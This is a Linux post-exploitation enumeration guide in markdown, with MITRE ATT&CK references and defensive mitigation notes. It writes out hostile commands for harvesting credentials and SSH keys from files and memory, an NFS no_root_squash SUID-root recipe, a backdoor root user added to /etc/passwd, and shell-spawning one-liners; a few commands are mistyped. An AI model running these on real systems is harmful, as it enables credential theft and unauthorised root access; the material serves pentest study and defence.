


### System Information

#### Automated Enumeration tool

- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

```bash
./LinEnum.sh
```

#### Distribution

Commands, file structure may depends on which distribution we are. It will be helpfull to know on which distribution when we start enumerate on the system.

```bash
cat /etc/issue # Text file which contains a message or system identification to be printed before the login prompt.
cat /etc/*-release
cat /etc/lsb-release # Contain the LSB_VERSION field.
# The value of the field should be a colon separated list of supported module
# versions indicating the LSB specification modules to which the installation is compliant.

cat /etc/redhat-release
lsb_release -all # Prints certain LSB (Linux Standard Base) and Distribution information
```

#### Kernel

The kernel is the core of the operating system and is a valuable place to look for exploits
```bash
at /proc/version # This file specifies the version of the Linux kernel, the version of gcc used to compile the kernel, and the time of kernel compilation.
uname -a # Print all system information
uname -mrs # Print the machine hardware name *m*, kernel release *r* and the kernel-name *s*
rpm -q kernel # Print the kernel version using the RPM Package Manager
dmesg | grep Linux # Print or control the kernel ring buffer
ls /boot | grep vmlinuz- # Grep the name the Linux kernel executable within the boot partition
lsmod # Display which loadable kernel modules are currently loaded. You can then use modinfo on those module
modinfo -d MODULE # Display information about a Linux Kernel module
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that unused kernel modules are removed from the system, or at least blacklisted (cc [Blacllist parameter](https://man7.org/linux/man-pages/man5/modprobe.d.5.html))
- *Architecture*: Ensure that unused old kernel versions are removed from the system.
- *Architecture*: Configure kernel security using tools like [sysctl]() 
- *Architecture*: Configure boot parameters that disables potential attack vector
- *Architecture*: Understand the difference between a "Stable" and a "Long Term Support" kernel version and choose the options that fits the best your needs.

##### Know exploits

[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures **--checksec**

- [CVE-2009-1185](https://nvd.nist.gov/vuln/detail/CVE-2009-1185): udev
  - [Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) Udev < 1.4.1](http://www.madirish.net/370)
- [CVE-2010-1146](https://nvd.nist.gov/vuln/detail/CVE-2010-1146): ReiserFS filesystem
  - Linux kernel 2.6.33.2 and earlier
- [CVE-2009-2692](https://nvd.nist.gov/vuln/detail/CVE-2009-2692): sock_sendpage
  - Linux kernel 2.6.0 through 2.6.30.4 and 2.4.4 through 2.4.37.4
- [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195): Dirty cow
  - Linux kernel 2.x through 4.x before 4.8.3

For more, refer to the following link [linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

:white_check_mark: How to protect against or detect that technique:

- *Architecture Control*: Ensure package manager repositories are configured
- *Architecture Control*: Have a Patch & Vulnerability process in order to regularly software updates to mitigate exploitation risk.
- *Architecture Control*: Ensure that your distribution(s) is/are still supported and that vulnerability patches are created when vulnerability are released.

For more information about that technique refer to [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)

#### Hardware information

There are multiple goals:

- Get the architecture of the CPU (32-bit or 64-bit).
- Check if the CPU is affected by a know exploit
- Get to know on which type of environment we are (Virtualized, Containerized, ...).

```bash
lscpu                # CPU info
free                 # Display amount of free and used memory in the system
cat /proc/meminfo    # Report the amount of free and used memory (both physical and swap)
vmstat               # Report virtual memory statistics
dmesg | less         # List hardware which hardware was detected and which drivers were loaded by the kernel at boot time.
```

lscpu may even show you towards by which vulnerabilities are you CPU affected or not and vulnerable or mitigated. Here below is an example

```bash
Vulnerability Itlb multihit:     KVM: Mitigation: VMX unsupported
Vulnerability L1tf:              Mitigation; PTE Inversion
Vulnerability Mds:               Vulnerable: Clear CPU buffers attempted, no microcode; SMT Host state unknown
Vulnerability Meltdown:          Mitigation; PTI
Vulnerability Spec store bypass: Vulnerable
Vulnerability Spectre v1:        Mitigation; usercopy/swapgs barriers and __user pointer sanitization
Vulnerability Spectre v2:        Mitigation; Full generic retpoline, STIBP disabled, RSB filling
Vulnerability Srbds:             Not affected
Vulnerability Tsx async abort:   Not affected
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Enable CPU mitigations to know vulnerabilities
- *Active Security*: Monitor processes and command-line arguments for actions that could be taken to gather hardware information.

For more information about that technique refer to [T1082 - https://attack.mitre.org/techniques/T1082/](https://attack.mitre.org/techniques/T1082/)

###### Network

There are multiple goals:

- Get information about the environment, such as others assets, what are the available services such as DNS server
- Get an idea of which services are on the machines

```bash
cat /etc/resolv.conf          # Display DNS resolver(s)
cat /etc/sysconfig/network    # Displays global network settings
cat /etc/networks             # Displays network names
cat /etc/squid.conf           # Displays squid proxy config
ifconfig                      # Displays network interface
iwconfig                      # Displays wireless network interface
iptables -L                   # List all rules of all chains
dnsdomainname                 # Displays the system's DNS domain name
arp -e                        # Displays the ARP cache
ip neigh                      # Displays ARP table on new system
ip link show up               # Display active interfaces
route                         # Displays the routing table
netstat -antlup               # Display all TCP,UDP listening and non-listening ports with their associated PID
ss -anp                       # Dumps socket statistics and displays information
ss -tp
lsof -i                       # listing of all Internet and x.25 (HP-UX) network opened files.
ip xfrm state list            # Print out the list of existing state in xfrm
/var/log/messages I grep DHCP # List DHCP assignments 
```

Netstat options:

- **--a**: List all listening and non-listening sockets.
- **-at**: List all TCP ports
- **-au**: List all UDP ports
- **-l**: List listening ports
- **-p**: List with PID

When looking at netstat, we could see programs that are only accessible from the box, but could be abused from the system.

We can also check if the machine is forwarding packets

```bash
# IP Forwarding
grep "net\.ipv4\.ip_forward" /etc/sysctl.conf /etc/sysctl.d/*
grep "net\.ipv6\.conf\.all\.forwarding" /etc/sysctl.conf /etc/sysctl.d/*
# ICMP Redirects
grep "net\.ipv4\.conf\.all\.send_redirects" /etc/sysctl.conf 
grep "net\.ipv4\.conf\.default\.send_redirects" /etc/sysctl.conf 
```

```bash
grep "net\.ipv4\.conf\.all\.accept_source_route" /etc/sysctl.conf/etc/sysctl.d/*
grep "net\.ipv4\.conf\.default\.accept_source_route" /etc/sysctl.conf/etc/sysctl.d/*
grep "net\.ipv6\.conf\.all\.accept_source_route" /etc/sysctl.conf/etc/sysctl.d/*
grep "net\.ipv6\.conf\.default\.accept_source_route" /etc/sysctl.conf/etc/sysctl.d/*
```


Also check if tcpdump is available, you could maybe sniff some interesting things.

:white_check_mark: How to protect against or detect that technique:

- *Architecure*: Disable IPv6 if it is not needed ()
- *Active Security*: Monitor processes and command-line arguments for actions that could be taken to gather system and network information.

For more information about that technique refer to [T1016 - System Network Configuration Discovery](https://attack.mitre.org/techniques/T1016/)

###### *If you don't know, now you know: [XFRM](http://manpages.ubuntu.com/manpages/trusty/man8/ip-xfrm.8.html)*

xfrm is an IP framework for transforming packets (such as encrypting their payloads).
This framework is used to implement the IPsec protocol suite (with the state  object operating on  the Security Association  Database, and the policy object operating on the Security Policy Database). It is also used for the IP Payload Compression Protocol and features of Mobile IPv6.

###### Network Share Discovery

Network shares may contains usefull information as well as identifying potential systems of interest for lateral movement.

[showmount](https://linux.die.net/man/8/showmount) show mount information for an NFS server

```bash
# NFS
# Search for drives
showmount -a # List both the client hostname or IP address and mounted directory in host:dir format.
showmount -e # Show the NFS server’s export list.
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Perform network segmentation through network-based and host-based firewall as well as network devices ACL and Private VLAN.
- *Architecture*: Use the latest version of the protocols used for network share.
- *Architecture*: Do not allow anonymous enumeration.
- *Active Security*: Monitor processes and command-line arguments for actions that could be taken to gather system and network information.
- *Active Security*: Monitor network flow that are abnormal.

For more information about that technique refer to [T1135 - Network Share Discovery](https://attack.mitre.org/techniques/T1135/)

###### Binairies

It may be usefull to know if the following software are availables

- Compiler: gcc, g++, make

  &rarr; Could be used to compile payload on the target asset
- Programming language interpreter: pythonX, perl, php, ruby

  &rarr; Could be used to interpret malicious scripts
- Container-related: docker, lxc, rkt, kubectl

  &rarr; There could be a potential attack vector to enumerate

```bash
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc rkt kubectl 2>/dev/null
```

```bash
logrotate --version
```

If [logrotate](https://linux.die.net/man/8/logrotate) is executed as root, with option that creates a file ( like create, copy, compress, etc.) and the user is in control of the logfile path, it is possible to abuse a race-condition to write files in ANY directories.
Affected version: all versions through 3.15.1

:white_check_mark: How to protect against or detect that technique:

- *Active Security*: Monitor processes and command-line arguments for actions that could be taken to gather information about installed softwares.

For more information about that technique refer to [T1518 - Software Discovery](https://attack.mitre.org/techniques/T1518/)

###### Peripheral Device Discovery

Peripheral devices may be interesting for the following reason:

- Their could be senstivie data on connected devices.
- They could be used to staged temporary files.
- Connected devices may requires a driver which may be vulnerable.

```bash
# USB
cat /proc/bus/usb/devices # Lists information about connected USB devices
lsusb -v # Lists USB device information in a slightly more human readable form
# SCSI 
cdrecord -scanbus # Lists SCSI and emulated SCSI drives. 
# PCMCIA
tail /var/log/messages # List system messages which can contain USB and PCMCIA information
# Others
lshw # List hardware
lspci # List PCI buses
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Restrict the */proc* pseudo-file-system so that users can only see their processes (cc [hidepid](https://linux-audit.com/linux-system-hardening-adding-hidepid-to-proc/))
- *Active Security*: Monitor processes and command-line arguments for actions that could be taken to gather information about peripheral devices.

For more information about that technique refer to [T1120 - Peripheral Device Discovery](https://attack.mitre.org/techniques/T1120/)

###### Others

```bash
printenv # Print environment variables
df -h # Display file system disk space usage in a human readable format
ls /bin/ # Lists information about all or the specified block devices.
ls /dev 2>/dev/null | grep -i "sd"
cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null
grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab 2>/dev/null
grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/mtab 2>/dev/null
lpstat # Displays status information about the current classes, jobs, and printers
date 2>/dev/null # Date
```

###### *If you don't know, now you know: ([fstab](https://man7.org/linux/man-pages/man5/fstab.5.html)/[mtab](https://www.unix.com/man-page/v7/5/mtab/))*

The fstab file contains descriptive information about the filesystems the system can mount.
Those filesystems should be mounted at boot time.

The mtab file is about the *currently* mounted.

You could find some credentials, for instance when there is a CIFS Windows Share mounted.

###### Screen Capture from Xll

The goal is to gather information that may be displayed on the screen which we may not seen as we are connected through a terminal.

- [xwd](https://linux.die.net/man/1/xwd) dump an image of an X window.
- [xwud](https://linux.die.net/man/1/xwud) is a mage displayer for X.

```bash
# Capture a screenshot in "XWD X Window Dump image data" format
xwd -root -out /tmp/test.xpm
# Conver the image to png
convert /tmp/test.xpm -resize 1280x1024 /tmp/test.jpg
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Restrict the usage of application that can perform screen capture.
- *Active Defense*: Monitor the usage of application that can perform screen capture.

For more information about that technique refer to [T1113 - Screen Capture](https://attack.mitre.org/techniques/T1518/)

#### Files Enumeration

##### Interesting Files

##### Potential credentials

```bash
strings /dev/mem -n8 | grep -i PASS # Searches for words greather than 8 containing PASS in memory
ls -la ~/.*_history #
ls -la /root/.*_history #
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
find / -name *.bak -print 2>/dev/null # Commonly used to signify a backup copy of a file
find / -name *.jks -print 2>/dev/null
find / -name squid.conf -print 2>/dev/null
find / -name .htpasswd -print 2>/dev/null
find / -name .git -print 2>/dev/null
find / -name .ipfs -print 2>/dev/null
find / -name ssh_host_dsa_key* -print 2> /dev/null
find / -name ssh_host_rsa_key* -print 2> /dev/null
find / -name ssh_host_key* -print 2> /dev/null
find / -name id_rsa* -print 2>/dev/null
find / -name authorized_keys -print 2> /dev/null
cat /etc/security/opasswd
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Search for password in PHP file (cc Joomla)
grep "^\s*password" /boot/grub/menu.lst
grep "^\s*GRUB2_PASSWORD" /boot/grub2/user.cfg
grep "^\s*password" /boot/grub/grub.cfg
locate password | more
```

- **.htpasswd**: used when protecting a file, folder or entire website with a password using HTTP authentication and implemented using rules within a .htaccess file.
  - **\$1$**: MD5crypt -> Mode 500
  - **\$apr1$**: md5apr1 -> Mode 1600
- **id_rsa**: SSH Private key.

  ```bash
  ssh -i id_rsa user@IP
  ./sshng2joh.py id_rsa
  john --worldlist/rockyou.txt *file.john*
  ```

- **authorized_keys**
  OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.

  <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ssh-key-predictable-prng-authorized_keys-process>

- **/etc/security/opasswd**: File with password history (pam_pwhistory).
- **.ipfs**: Means that the InterPlanetary File System5 [(IPFS](https://docs.ipfs.io/reference/cli/)) protocol (peer-to-peer network for storing and sharing data in a distributed file system) is maybe accessible

  ```bash
  ipfs refs local # List hashes of links (locally)
  ipfs ls HASH # List links from an object
  ipfs get HASH # Download IPFS objects
  ```

- **\*.jks**: repository of security certificates, either authorization certificates or public key certificates, plus corresponding private keys, used for instance in SSL encryption.

  ```bash
  keytool -list -v -keystore keystore.jks
  ```

- **.git**: cc [Files101](Files101.md)

- **squid.conf**: Squid proxy confif file
  - domain names
  - cachemgr_passwd directive, which allows you to protect cache manager pages with a password (cleartext)
    &rarr; curl -s --user ';PASSWORD' <http://IP/squid-internal-mgr/menu> | grep -v "disabled"
    &rarr; curl -s --user ';PASSWORD' <http://IP/squid-internal-mgr/fqdncache>
  - Addtional information about the subnet

- **/boot/grub/menu.lst**: Old name of the GRUB configuration file. In some environments, such as kiosks, it may be appropriate to lock down the boot loader to require authentication before performing certain operations.
  &rarr; The *password* and *password_pbkdf2* commands can be used to define users, each of which has an associated password. (More info [Here](https://www.gnu.org/software/grub/manual/grub/grub.html#Authentication-and-authorisation))
- **/boot/grub/grub.cfg**: GRUB configuration file.
- **/boot/grub2/user.cfg**:
   &rarr; Hashcat mode 7200

[Mimipenguin](https://github.com/huntergregal/mimipenguin) is a tool used to dump the login password from the current linux desktop user.
Mimipenguin requires root permissions.
It can retreive the following passwords from:

- GDM password
- Gnome Keyring
- LightDM
- VSFTPd (Active FTP Connections)
- Apache2 (Active HTTP Basic Auth Sessions)
- OpenSSH (Active SSH Sessions - Sudo Usage)

For more information about those techniques refer to:

- [T1552.001 - Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [T1552.003 - Unsecured Credentials: Bash History](https://attack.mitre.org/techniques/T1552/001/)
- [T1552.004 - Unsecured Credentials: Private Keys](https://attack.mitre.org/techniques/T1552/004/)

##### Mails

Email on local systems can contain sensitive information

```bash
ls -alh /var/mail/ # Displays the contents of the mail directory
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Perform the *Principle of least privilege* on shared mailbox.
- *Architecture*: Encrypt folder that may contains sensitive data such as mails.
- *Active Defense*: Monitor processes and command-line arguments for actions that gather local email files.
  - If it is unusual processes based on a given baseline

For more information about that technique refer to [T1114 - Email Collection: Local Email Collection](https://attack.mitre.org/techniques/T1114/001/)

##### Clipboad

Clipboad can contain sensitive data such as a password copied from a password manager.

- [xclip](https://linux.die.net/man/1/xclip) command line interface to X selections (clipboard).
- [xsel](https://linux.die.net/man/1/xsel) manipulate the X selection.

```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Restrict the usage of application that are designed to access clipboard data.
- *Active Defense*: Monitor processes and command-line arguments for actions that access clipboard data which are non-user-driven.

For more information about that technique refer to [T1115 - Clipboard Data](https://attack.mitre.org/techniques/T1115/)

##### Authentication Logs

The authorization Log tracks usage of authorization systems, the mechanisms for authorizing users which prompt for user passwords, such as the Pluggable Authentication Module (PAM) system, the sudo command, remote logins to sshd and so on.

There could be multiple location based on the distribution

```bash
cat /var/log/auth.log # Normally only root can see it
cat /var/log/secure
```

Keep authentication logs for both successful or failed logins, and authentication processes.

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Restrict the access towards sensitive logs following a the need-to-know principle.

##### Core dumps

Core dumps can hold senstive information.
Most Linux systems have core dumps enabled by default.

Note that each distribution deals differently with core dumps and the default settings.

- **/var/crash**: represents the file system path in which the kdump saves the vmcore file.
- **/var/spool**: contains data which is awaiting some kind of later processing
- **/var/lib/systemd/coredump**

[Apport](https://wiki.ubuntu.com/Apport) collects potentially sensitive data, such as core dumps, stack traces, and log files.
Apport is not enabled by default in stable releases, even if it is installed.

```bash
# Extract the fields of a problem report to separate files
apport-unpack report.crash reportDirectory
cd reportDirectory/
# Use the CoreDump dump within gdb
gdb `cat ExecutablePath` CoreDump
bt 
```

[apport-retrace](http://manpages.ubuntu.com/manpages/bionic/man1/apport-retrace.1.html) regenerate a crash report's stack traces (both the simple and the threaded one) from an apport crash report from the included core dump

```bash
apport-retrace -g CRASHFILE.crash
```

[Kdump](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/kernel_administration_guide/kernel_crash_dump_guide) is a kernel crash dumping mechanism that allows you to save the contents of the system’s memory for later analysis.

kdump service is installed and activated by default on new Red Hat Enterprise Linux 7 installations.

With kdump, when a kernel crash is captured, the core dump can be either stored as a file in a local file system, written directly to a device, or sent over a network using the NFS (Network File System) or SSH (Secure Shell) protocol.

The kdump saves the vmcore file in /var/crash/var/crash

Here below are some commands to see if it's active

```bash
# Check if the kdump service is enabled
systemctl is-active kdump

cat /proc/sys/kernel/sysrq
cat /proc/sysrq-trigger
```

In order to analyse a vmcore dump file, we need both the crash and kernel-debuginfo packages installed.

```bash
crash /usr/lib/debug/lib/modules/kernel/vmlinux /var/crash/timestamp/vmcore

crash> log       # Display the kernel message buffer.
crash> help log  # Display more information on the log command usage.
crash> bt        # Display the kernel stack trace.
crash> vm        # Display virtual memory information of the current context.
crash> files     # Display information about open files of the current context.
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure core dumps are restricted.
- *Architecture*: Ensure that tools related to interact with core dumps are regularly update.
- *Active Defense*: Monitor the usage of core dumps tools.

###### *If you don't know, now you know: **[Core Dump](https://wiki.ubuntu.com/DebuggingProgramCrash)**

**Backtrace** shows a listing of which program functions are still active.
By getting a backtrace at the point of a bug, a developer may be able to isolate where that bug is, because it will narrow down to the function.

**Valgrind** is a suite of tools for debugging and profiling programs.

Under a Linux-based system, every userspace process has to interact with its environment through the kernel. And it does this by invoking system calls.
**Strace** is a utility that intercepts and logs these system calls. In this way, you can watch how a program interacts with the system, which is useful for tracking down behavioural issues.

##### Misconfigured services

```bash
cat /etc/exports                     # NFS server configuration file
cat /etc/lib/nfs/etab
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/syslog.conf                 # Syslog
cat /etc/chttp.conf                  #
cat /etc/lighttpd.conf               # Lighttpd
cat /etc/cups/cupsd.conf             # CUPS scheduler (Print Server)
cat /etc/printer.conf                # Printer configuration file for cups
cat /etc/inetd.conf                  # internet service daemon
cat /etc/apache2/apache2.conf        # Apache 2
cat /etc/mysql/mysql.conf            # MySQL
ls /etc/pure-ftpf/conf
car /etc/pure-ftpf/pure-ftpf.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/' # Displays all configuration files.
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \) # Rsync files
find /etc -name squid.conf -print 2>/dev/null
```

- **/etc/exports**: Contains configurations and permissions of which folders/file systems are exported to remote users.
  -> Search for **no_root_squash**. If present, you are root of the file systems/folders with that setting
  -> Search for **anonuid** and **anonuid**. Those are the uid and gid of the anonymous account mounting the system.
  If it's set to **0**, you will be root.

  ```bash
  # 1. Place a binary in it
  cp /bin/bash /VULNERABLE_SHARE
  # 2. Mount the share
  mount -t nfs SERVER:/VULNERABLE_SHARE /mnt/
  # 3. Get root
  chown root:root bash && chmod u+s bash
  ```

- **/etc/ssh/ssh_config**:

- **/etc/ssh/sshd_config**:
  -> Search for **PermitRootLogin**, if set to **yes**, you can login as root via SSH
  -> Search for **AllowUsers** in order to enumerate the users allowed to connect using SSH

- **/etc/cups/cupsd.conf**: You could found credentials or others usefull information in it
- **/etc/printer.conf**: You could found credentials or others usefull information in it


###### *If you don't know, now you know: **[NFS Root Squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot)**

Root squash is a technique to void privilege escalation on the client machine via suid executables Setuid. Without root squash, an attacker can generate suid binaries on the server that are executed as root on other client, even if the client user does not have superuser privileges.

Root squash is a special mapping of the remote superuser (root) identity when using identity authentication

Under root squash, a client's uid 0 (root) is mapped to 65534 (nobody).

##### All Files/Folder

```bash
find / -name *.db -print 2>/dev/null  # SQlite files
find . -type d -perm -g=x 2>/dev/null
find . -perm -u=x 2>/dev/null
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null # Writable files
```

Interesting files:

- /etc/sysconfig/network-scripts/ifcfg-xxx (Centos/Redhat):
  [source](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)
- /etc/passwd

  ```bash
  # First generate a password with one of the following commands.
  openssl passwd -1 -salt hacker hacker
  mkpasswd -m SHA-512 hacker
  python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
  # Then add the user hacker and add the generated password.
  hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
  ```

##### Websites location enumeration

Websites location may help us to:

- Find credentials and/or comments in files that are only available on the back-end
- Websites files that are not yet available in either dev, stage, test or production

```bash
ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/
```

### Getting /bin/sh

#### Quick test

```bash
# It may be allowed to simply run it
/bin/sh
# Adding /bin/sh to PATH and/or SHELL
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
# Using chsh (Command used to change your login shell.)
chsh
/bin/bash
# Allow to copy from /bin
cp /bin/sh /current/directory; sh
```

#### Spawn a bash shell

```bash
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
# Ruby
ruby: exec "/bin/sh"
# Lua
lua: os.execute('/bin/sh')
# "Echo method"
echo 'os.system('/bin/bash')'
```

#### Screen sessions

Screen is a terminal multiplexer, which means that it allows you to start a screen session and then open any number of windows (virtual terminals) inside that session.

```bash
screen -ls # List the current running screen
screen -r ID # Restore to a specified screen session
```

#### tmux

tmux is an open-source terminal multiplexer for Unix-like operating systems. It allows multiple terminal sessions to be accessed simultaneously in a single window.

```bash
tmux ls
ps aux | grep tmux # Search for tmux consoles not using default folder for sockets
tmux -S /tmp/dev_sess ls # List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess
```

Here below are the command to attach to a specified session

```bash
tmux attach -d -t NAME
tmux -S /tmp/dev_sess attach -t 0
```

### Defense Enumeration

#### IPTable

Iptables is used to set up, maintain, and inspect the tables of IP packet filter rules in the Linux kernel.

```bash
# Check if the packet are there
rpm -q iptables
dpkg -s iptables

# List rules
iptables -L

# Determine open ports
ss -4tuln
# Determine firewall rules
iptables -L INPUT -v -n

# IPv6
# List rules
ip6tables -L
# Check if enabled
grep "^\s*linux" /boot/grub2/grub.cfg | grep -v ipv6.disable=0
grep "^\s*linux" /boot/grub/grub.cfg | grep -v ipv6.disable=0

# Determine open ports
ss -6tuln
# Determine firewall rules
ip6tables -L INPUT -v -n
```

#### Auditd

auditd is the userspace component to the Linux Auditing System. It's responsible for writing audit records to the disk.

- **admin_space_left_action**: Determines what action to take when the system has detected that it is low on disk space.
- **space_left_action**: Determines what action to take when the system has detected that it is starting to get low on disk space.
- **max_log_file_action**: Determines how to handle the audit log file reaching the max file size.

```bash

# rpm -q audit audit-libs
# dpkg -s auditd audispd-plugins

# Check if auditd is enabled per runlevels
chkconfig --list auditd

# Check Auditd setting
grep space_left_action /etc/audit/auditd.conf
grep admin_space_left_action /etc/audit/auditd.conf
grep max_log_file_action /etc/audit/auditd.conf
```

#### SELinux

**Security-Enhanced Linux (SELinux)** is a Linux kernel security module that provides a mechanism for supporting access control security policies, including mandatory access controls (MAC).

```bash
# SELinux
rpm -q libselinux
dpkg -s libselinux1

# Get the current mode of SELinux
getenforce 
grep SELINUX=enforcing /etc/selinux/config

sestatus # SELinux status tool
grep SELINUXTYPE /etc/selinux/config
# SELINUXTYPE=targeted -> This default policy applies access controls to certain (targeted) processes.
# SELINUXTYPE=mls -> Multi-Level Security

# For grub based systems check if SELinux is enabled at boot time (no kernel line has the selinux=0 or enforcing=0 parameters set)
grep "^\s*kernel" /boot/grub/menu.lst
# For grub2 based systems check if SELinux is enabled at boot time (no kernel line has the selinux=0 or enforcing=0 parameters set)
grep "^\s*linux" /boot/grub2/grub.cfg
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Only privileged user that needs to maintain or see the SELinux configuration should be able to see his configuration.
- *Active Moniroting*: Monitor changes made to the SELinux configuration

#### TCP_wrappers

The **TCP_wrappers** service provides access control list restrictions and logging for all service requests to the service it wraps.

TCP_wrappers implements access by using two files:

- **/etc/hosts.allow**: Specifies which IP addresses are permitted to connect to the host.
- **/etc/hosts.deny**: Specifies which IP addresses are not permitted to connect to the host. It is intended to be used in conjunction with the /etc/hosts.allow file

Because access rules in *hosts.allow* are applied first, they **take precedence over rules specified in hosts.deny**. Therefore, if access to a service is allowed in hosts.allow, a rule denying access to that same service in hosts.deny is ignored.

```bash
# /etc/hosts.allow should contains only the network allowed per service if TCP_wrappers is in used and correctly setup
cat /etc/hosts.allow
# /etc/hosts.deny should contains "ALL: ALL" if TCP_wrappers is in used and correctly setup
cat /etc/hosts.deny
```

*Note that some Linux distributions have deprecated the use of TCP Wrappers in favor of value-added firewall solutions.*

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Only privileged user that needs to maintain or see the TCP Wrapper configuration should be able to see his configuration.
- *Active Moniroting*: Monitor changes made to the TCP Wrapper configuration

#### AppArmor

AppArmor is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles.

```bash
# AppArmor
rpm -q apparmor
dpkg -s apparmor

# For grub based systems check if SELinux is enabled at boot time (no kernel line has the apparmor=0 parameter set)
grep "^\s*kernel" /boot/grub/menu.lst
# For grub2 based systems check if SELinux is enabled at boot time (no kernel line has the apparmor=0 parameter set)
grep "^\s*linux" /boot/grub2/grub.cfg

# Check the AppArmor profiles are enforced
apparmor_status
```

:white_check_mark: How to protect against or detect that technique:

